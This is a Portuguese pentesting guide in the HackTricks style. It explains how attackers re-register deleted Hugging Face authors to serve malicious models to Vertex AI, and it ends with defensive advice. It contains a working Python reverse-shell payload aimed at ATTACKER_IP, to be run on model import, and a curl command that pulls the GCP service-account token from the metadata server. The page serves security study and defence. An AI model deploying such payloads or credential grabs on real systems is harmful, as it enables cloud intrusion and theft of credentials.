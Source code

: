 # GCP - Vertex AI Post-Exploitation via Hugging Face Model Namespace Reuse

{{#include ../../../banners/hacktricks-training.md}}

## Cenário

- Vertex AI Model Garden permite a implantação direta de muitos modelos da Hugging Face (HF).
- Identificadores de modelo HF são Author/ModelName. Se um autor/org no HF for deletado, o mesmo nome de autor pode ser re-registrado por qualquer pessoa. Atacantes podem então criar um repo com o mesmo ModelName no caminho legado.
- Pipelines, SDKs, or cloud catalogs que buscam apenas pelo nome (sem pinning/integrity) puxarão o repo controlado pelo atacante. Quando o modelo é implantado, o loader code desse repo pode executar dentro do Vertex AI endpoint container, resultando em RCE com as permissões do endpoint.

Dois casos comuns de takeover no HF:
- Remoção do proprietário: o caminho antigo retorna 404 até que alguém re-registre o autor e publique o mesmo ModelName.
- Transferência de propriedade: o HF emite 307 redirects do antigo Author/ModelName para o novo autor. Se o autor antigo for posteriormente deletado e re-registrado por um atacante, a cadeia de redirects é quebrada e o repo do atacante responde no caminho legado.

## Identificando Namespaces Reutilizáveis (HF)

- Autor antigo deletado: a página do autor retorna 404; o caminho do modelo pode retornar 404 até o takeover.
- Modelos transferidos: o caminho antigo do modelo emite 307 para o novo proprietário enquanto o autor antigo existir. Se o autor antigo for depois deletado e re-registrado, o caminho legado resolverá para o repo do atacante.

Checagens rápidas com curl:
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>
# 200 = exists, 404 = deleted/available

# Check old model path behavior
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 = redirect to new owner (transfer case)
# 404 = missing (deletion case) until someone re-registers
```
## End-to-end Attack Flow against Vertex AI

1) Descobrir namespaces de modelos reutilizáveis que o Model Garden lista como deployable:
- Encontrar modelos HF no Vertex AI Model Garden que ainda aparecem como “verified deployable”.
- Verificar no HF se o autor original foi deletado ou se o modelo foi transferido e o autor antigo foi posteriormente removido.

2) Re-registrar o autor deletado no HF e recriar o mesmo ModelName.

3) Publicar um repositório malicioso. Incluir código que execute no carregamento do modelo. Exemplos que comumente executam durante o model load do HF:
- Efeitos colaterais em __init__.py do repositório
- Arquivos modeling_*.py customizados ou código de processamento referenciado por config/auto_map
- Caminhos de código que requerem trust_remote_code=True em pipelines Transformers

4) Uma implantação do Vertex AI para o Author/ModelName legado agora puxa o repo do atacante. O loader é executado dentro do contêiner do endpoint do Vertex AI.

5) O payload estabelece acesso a partir do ambiente do endpoint (RCE) com as permissões do endpoint.

Exemplo de fragmento de payload executado na importação (apenas para demonstração):
```python
# Place in __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # Or python -c exec ...

if os.environ.get("VTX_AI","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
Notas
- Loaders no mundo real variam. Muitas integrações Vertex AI HF clonam e importam repo modules referenciados pelo model’s config (e.g., auto_map), o que pode acionar execução de código. Alguns usos requerem trust_remote_code=True.
- O endpoint tipicamente roda em um container dedicado com escopo limitado, mas é um foothold inicial válido para data access e lateral movement em GCP.

## Post-Exploitation Tips (Vertex AI Endpoint)

Once code is running inside the endpoint container, consider:
- Enumerar environment variables e metadata em busca de credentials/tokens
- Acessar attached storage ou mounted model artifacts
- Interagir com Google APIs via service account identity (Document AI, Storage, Pub/Sub, etc.)
- Persistência no model artifact se a plataforma re-pulls o repo

Enumere instance metadata se acessível (dependente do container):
```bash
curl -H "Metadata-Flavor: Google" \
http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
```
## Orientações defensivas para usuários do Vertex AI

- Fixe os modelos por commit nos HF loaders para evitar substituição silenciosa:
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- Espelhe modelos HF verificados em um repositório/registro de artefatos interno confiável e implante a partir dele.
- Faça varreduras contínuas em codebases e configs por Author/ModelName hard-coded que foram deletados/transferidos; atualize para os novos namespaces ou fixe por commit.
- No Model Garden, verifique a proveniência do modelo e a existência do author antes da implantação.

## Heurísticas de Reconhecimento (HTTP)

- Deleted author: author page 404; legacy model path 404 until takeover.
- Transferred model: legacy path 307 to new author while old author exists; if old author later deleted and re-registered, legacy path serves attacker content.
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## Referências Cruzadas

- Veja a metodologia mais ampla e notas sobre supply-chain:

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## Referências

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}
